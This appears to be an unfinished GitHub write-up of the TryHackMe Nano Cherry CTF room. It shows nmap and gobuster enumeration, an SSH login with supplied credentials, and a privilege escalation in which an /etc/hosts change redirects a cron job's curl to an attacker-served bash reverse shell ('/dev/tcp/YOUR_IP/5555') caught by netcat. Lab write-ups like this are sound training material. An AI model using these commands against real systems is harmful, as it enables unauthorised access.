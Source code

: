# Tryhackme NanoCherryCTF

## What is it ?

A writeup for [tryhackme Nano Cherry CTF](https://tryhackme.com/r/room/nanocherryctf)
This writeup is not complete as I still trying to solve the challenge

## Initial foothold

### Nmap discovery :

```bash
┌──(david㉿kali)-[~]
└─$ sudo nmap -p- -sV -sC 10.10.68.252 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-06 13:43 CEST
Nmap scan report for cherryontop.thm (10.10.68.252)
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:e6:fd:19:23:a3:b1:40:77:1c:a4:c4:2f:e6:d3:4b (ECDSA)
|_  256 15:2b:23:73:3f:c8:8a:a3:b4:aa:1d:ae:70:d4:5f:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Cherry on Top Ice Cream Shop
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.79 seconds
```
### Directory scan with gobuster

```bash
┌──(david㉿kali)-[~]
└─$ gobuster dir -u http://10.10.68.252 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.68.252
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.68.252/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.68.252/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.68.252/js/]
/bootstrap            (Status: 301) [Size: 316] [--> http://10.10.68.252/bootstrap/]
/jquery               (Status: 301) [Size: 313] [--> http://10.10.68.252/jquery/]
/server-status        (Status: 403) [Size: 277]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### Virtual host scan with gobuster 

```bash
┌──(david㉿kali)-[~/tryhackme_ctf]
└─$ gobuster vhost -u http://cherryontop.thm/ -w /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt --append-domain 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://cherryontop.thm/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: nano.cherryontop.thm Status: 200 [Size: 10718]
```

We found one subdomain ``nano.cherryontop.thm`` we add it to ``/etc/hosts`` :
```bash
echo '10.10.68.252 nano.cherryontop.thm' | sudo tee -a /etc/hosts
```

### Connect via ssh to the machine with the credentials provided in the challenge 

Username: notsus
Password: dontbeascriptkiddie

```bash
┌──(david㉿kali)-[~/tryhackme_ctf]
└─$ ssh notsus@10.10.68.252
```
In the home directory there's two files backdoor.mp4 and youFoundIt.txt

We cat the txt file :

```bash
$ cat youFoundIt.txt
Hey good work hacker. Glad you made it this far!

From here, we should be able to hit Bob-Boba where it hurts! Could you find a way to escalate your privileges vertically to access his account?

Keep your's eyes peeled and don't be a script kiddie!
```
So we know we have to escalte to ``Bob-Boba`` user !

I copied with scp the backdoor.mp4 file into my local computer :

```bash
┌──(david㉿kali)-[~/tryhackme/NanoCherryCTF]
└─$ scp notsus@10.10.68.252:/home/.notsus/backdoor.mp4 /home/david/tryhackme/NanoCherryCTF
```
And check the exif data with exiftool but couldn't find anything relevant.

## Privilege escalation to Bob-Boba user :

I start a simple python server to retrieve the linpeas executable :

On my local machine : 

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ python3 -m http.server                                       
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.68.252 - - [06/Jul/2024 14:30:46] "GET /linpeas.sh HTTP/1.1" 200 -
```
On the remote host :
```bash
$ wget http://10.11.92.0:8000/linpeas.sh
```
From the LinPeas output I found a interesting cron job run as bob-boba :
![LinPeas output](https://www.noelshack.com/2024-27-6-1720271405-screenshot-from-2024-07-06-15-08-20.png)

Unfortunately we cannot acces the file :
```bash
$ ls -la /home/bob-boba/coinflip.sh    
ls: cannot access '/home/bob-boba/coinflip.sh': Permission denied
```
But we can modify /etc/hosts file 
First in our local machine we create the same structured folder as curl by the cron job :

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ mkdir -p home/bob-boba        
```
Then we add our payload (a reverse shell in bash) to our coinflip.sh file :

```bash                                                                               
┌──(david㉿kali)-[~/tryhackme/home/bob-boba]
└─$ echo 'sh -i >& /dev/tcp/YOUR_IP/5555 0>&1' > coinflip.sh
```

We start a simple python server on port 8000 at the root of our folder :

```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ python3 -m http.server 8000
*Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Then we set a listener with netcat :
```bash
┌──(david㉿kali)-[~]
└─$ nc -lnvp 5555
listening on [any] 5555 ...
```

Then we modify on the remote host /etc/hosts file and add the following entrance :
YOUR_IP cherryontop.tld

After a few seconds you will receive a connection on our netcat listener congrats we have escalated to bob-boba :

![Reverse shell](https://www.noelshack.com/2024-27-6-1720272556-screenshot-from-2024-07-06-15-28-38.png)

We stabilize our reverse shell as stated in this [page](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Here we have the flag number 3 :

![Flag number 3](https://image.noelshack.com/fichiers/2024/27/6/1720272868-screenshot-from-2024-07-06-15-34-11.png)

## XSS on content.php page 
![XSS](https://image.noelshack.com/fichiers/2024/27/6/1720277908-screenshot-from-2024-07-06-16-58-01.jpg)

## Acces the admin portal 

Back on the foothold we had discovered a subdomain : nano.cherryontop.thm
On this subdomain there is a admin portal :

![admin portal](https://image.noelshack.com/fichiers/2024/27/6/1720273732-screenshot-from-2024-07-06-15-48-27.jpg)

Let's try to see if there is an SQLi. We open burpsuite and send the request to the repeater then save it.
```bash
┌──(david㉿kali)-[~/tryhackme]
└─$ sqlmap -r request.req     
```
Result in nothing. 




